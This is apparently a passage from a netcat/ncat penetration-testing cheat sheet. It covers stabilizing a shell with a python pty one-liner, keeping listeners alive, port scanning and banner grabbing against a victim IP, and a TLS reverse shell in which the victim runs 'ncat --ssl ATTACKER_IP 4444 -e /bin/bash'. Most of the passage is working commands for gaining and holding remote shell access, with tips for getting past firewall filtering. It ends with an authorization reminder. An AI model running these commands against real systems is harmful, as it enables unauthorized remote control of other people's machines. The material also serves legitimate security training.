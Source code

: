 ### 8) Stabilize/upgrade the shell (Linux)
Once you have a shell:
```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
export TERM=xterm
stty rows 40 columns 120
```
If Ctrl+Z works (background the shell), then on your local terminal:
```bash
stty raw -echo; fg
reset
```

### 9) Persistence of listener and timeouts
Keep listener alive for multiple connections:
```bash
nc -lvnp 4444 -k
```
Set connect timeout / quit after stdin closes:
```bash
nc -nv -w 2 VICTIM_IP 80
# or
nc -lvnp 4444 -q 0
```

### 10) Encrypted sessions with ncat (if available)
Reverse shell over TLS:
Attacker:
```bash
ncat --ssl -lvnp 4444
```
Victim:
```bash
ncat --ssl -nv ATTACKER_IP 4444 -e /bin/bash
```

## Practical tips
- Choose reverse shell when inbound traffic is blocked; choose bind shell when outbound is restricted on the victim.
- Use -n to skip DNS and speed up scans/connections; -v/-vv for verbosity.
- On macOS and many Linux distros (netcat-openbsd), -e is disabled. Prefer ncat or mkfifo trick.
- For Windows, Nmap’s ncat.exe is the most reliable; older nc.exe often lacks features.
- If sessions drop immediately, try -w 1 or -w 3 on scans, -q 0 on listeners, and verify with tcpdump.
- High ports (>1024) are less likely filtered; avoid privileged ports unless needed.
- For directory/file transfers, tar over nc is simple and preserves structure; confirm integrity with sha256sum.
- Always ensure you have authorization; these techniques are for lab/assessment environments.

## Minimal cheat sheet (one-screen flow)
```bash
# Identify variant
nc -h 2>&1 | head -n 5

# Chat test
nc -lvnp 4444
nc ATTACKER_IP 4444

# Banner grab
printf 'HEAD / HTTP/1.1\r\nHost: x\r\n\r\n' | nc -nv VICTIM_IP 80

# TCP scan
nc -zvn -w1 VICTIM_IP 1-1024

```